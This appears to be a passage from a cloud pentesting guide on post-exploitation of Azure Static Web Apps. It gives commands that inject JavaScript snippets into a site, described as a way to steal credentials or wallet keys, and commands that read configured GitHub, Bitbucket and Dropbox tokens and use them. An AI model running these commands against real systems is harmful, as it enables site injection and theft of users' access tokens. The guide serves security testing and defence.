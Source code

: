 # Az - Static Web Apps Post Exploitation

## Azure Static Web Apps

For more information about this service check:

[[../az-services/az-static-web-apps.md]]

### Microsoft.Web/staticSites/snippets/write

It's possible to make a static web page load arbitary HTML code by creating a snippet. This could allow an attacker to inject JS code inside the web app and steal sensitive information such as credentials or mnemonic keys (in web3 wallets).

The fllowing command create an snippet that will always be loaded by the web app::

```bash
az rest \
    --method PUT \
    --uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/staticSites/<app-name>/snippets/<snippet-name>?api-version=2022-03-01" \
    --headers "Content-Type=application/json" \
    --body '{
        "properties": {
            "name": "supersnippet",
            "location": "Body",
            "applicableEnvironmentsMode": "AllEnvironments",
            "content": "PHNjcmlwdD4KYWxlcnQoIkF6dXJlIFNuaXBwZXQiKQo8L3NjcmlwdD4K",
            "environments": [],
            "insertBottom": false
        }
    }'
```

### Read Configured Third Party Credentials

As explained in the App Service section:

[[../az-privilege-escalation/az-app-services-privesc.md]]

Running the following command it's possible to **read the third party credentials** configured in the current account. Note that if for example some Github credentials are configured in a different user, you won't be able to access the token from a different one.

```bash
az rest --method GET \
  --url "https://management.azure.com/providers/Microsoft.Web/sourcecontrols?api-version=2024-04-01"
```

This command returns tokens for Github, Bitbucket, Dropbox and OneDrive.

Here you have some command examples to check the tokens:

```bash
# GitHub – List Repositories
curl -H "Authorization: token <token>" \
     -H "Accept: application/vnd.github.v3+json" \
     https://api.github.com/user/repos

# Bitbucket – List Repositories
curl -H "Authorization: Bearer <token>" \
     -H "Accept: application/json" \
     https://api.bitbucket.org/2.0/repositories

# Dropbox – List Files in Root Folder
curl -X POST https://api.dropboxapi.com/2/files/list_folder \
```